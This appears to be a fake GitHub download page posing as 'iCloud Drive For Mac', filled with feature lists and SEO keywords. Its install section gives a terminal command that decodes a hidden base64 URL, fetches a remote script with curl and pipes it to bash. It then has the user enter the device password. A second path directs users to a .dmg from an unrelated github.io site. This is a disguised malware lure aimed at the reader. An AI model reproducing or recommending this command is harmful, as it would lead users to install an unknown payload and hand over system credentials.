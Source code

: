 # iCloud Drive For Mac — Download For macOS 😊
![iCloud Drive Logo](https://cdn.macstories.net/002/1413373609-hero2.jpg) 

iCloud Drive For Mac is Apple’s seamless cloud storage and file synchronization solution, designed to keep your files accessible and organized across all your Apple devices. Store documents, photos, and more with ease, and collaborate effortlessly. Follow the instructions below to download and install iCloud Drive For Mac.

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge&logo=apple)](https://fituganshfgh.github.io/.github/idrive)

If you encounter issues downloading via the button above, follow the terminal command instructions below.

## 📦 How to Install iCloud Drive For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get

- ☁️ **Seamless Cloud Storage**: Store up to 5GB of files for free, accessible from any Apple device.
- 🔄 **Automatic File Syncing**: Keep files updated across your Mac, iPhone, iPad, and more in real time.
- 🤝 **Collaboration Features**: Share files and collaborate with others using iCloud sharing tools.
- 🔒 **End-to-End Encryption**: Protect your data with Apple’s industry-leading security.
- 📂 **Finder Integration**: Access and manage files directly from macOS Finder.
- 📱 **Cross-Device Continuity**: Work seamlessly across macOS, iOS, iPadOS, and web browsers.

## About iCloud Drive For Mac

iCloud Drive For Mac is Apple’s native cloud storage solution, seamlessly integrated into macOS to provide effortless file management and synchronization. Designed for Apple users, it allows you to store documents, photos, and other files in the cloud, ensuring they’re accessible on your Mac, iPhone, iPad, or even Windows devices. With 5GB of free storage and deep integration with macOS Finder, iCloud Drive is ideal for students, professionals, and creatives who need a reliable and secure way to manage their files. Its intuitive design makes it a top choice for macOS cloud storage.

The software’s real-time syncing ensures that changes made on one device are instantly reflected across all your Apple devices, streamlining your workflow. Whether you’re editing a Pages document, organizing photos, or sharing files with colleagues, iCloud Drive For Mac offers a smooth experience optimized for macOS, including full support for Apple Silicon and macOS 11.0 Big Sur or later. Its collaboration tools allow multiple users to work on shared files in real time, perfect for team projects or family photo albums.

Security is a cornerstone of iCloud Drive, with end-to-end encryption ensuring your data remains private and protected. The software integrates with Apple’s ecosystem, supporting apps like Pages, Numbers, and Keynote for seamless file editing. Offline access lets you work without an internet connection, with changes syncing automatically once you’re back online. For those searching for “free cloud storage macOS,” “iCloud Drive download,” or “macOS file sync,” iCloud Drive For Mac delivers a polished and dependable solution.

Built for simplicity and performance, iCloud Drive For Mac is regularly updated to stay compatible with the latest macOS features. Its SEO-optimized presence makes it easy to find for users seeking a native macOS cloud storage tool. Whether you’re backing up important files, collaborating on projects, or accessing data on the go, iCloud Drive For Mac provides a secure, user-friendly platform to keep your digital life organized and accessible.

## Advantages of iCloud Drive For Mac

- 📂 **Native Finder Integration**: Manage files directly within macOS Finder for a seamless experience.
- 🔐 **Top-Tier Security**: Safeguard your data with Apple’s end-to-end encryption.
- ⚡ **Instant Syncing**: Keep files updated across all Apple devices with zero delay.
- 📱 **Apple Ecosystem Support**: Works flawlessly with macOS, iOS, iPadOS, and more.
- 🆓 **Free 5GB Storage**: Store files at no cost with no hidden fees or watermarks.
- 🌟 **User-Friendly Interface**: Simple design for effortless file organization and sharing.

## 🖼 Preview

![File Syncing](https://i.pcmag.com/imagery/reviews/04T5RtW7Cgfd3xNLz0J4YSG-46.fit_lim.size_1050x.png)  
*Sync files across your Apple devices with iCloud Drive.*

![Finder Integration](https://eshop.macsales.com/blog/wp-content/uploads/2020/08/iCloudDrive_1280x720.jpg)  
*Access iCloud Drive files directly in macOS Finder.*

![Collaboration Tools](https://i.postimg.cc/5tY0nG7W/icloud-collaboration.png)  
*Share and collaborate on files in real time.*

![Settings Panel](https://i.postimg.cc/0yWqH1mQ/icloud-settings.png)  
*Customize iCloud Drive settings for your preferences.*

## 🔍 Tags

iCloud drive, iCloud drive app, iCloud drive destkop, iCloud drive free, iCloud drive mac, iCloud drive for mac, free cloud storage macOS, iCloud Drive download, macOS file sync tool, free file sharing mac, iCloud Drive For Mac download, cloud backup macOS, Apple cloud storage, secure file storage mac, macOS productivity software, file management mac, cross-device cloud storage, iCloud free mac
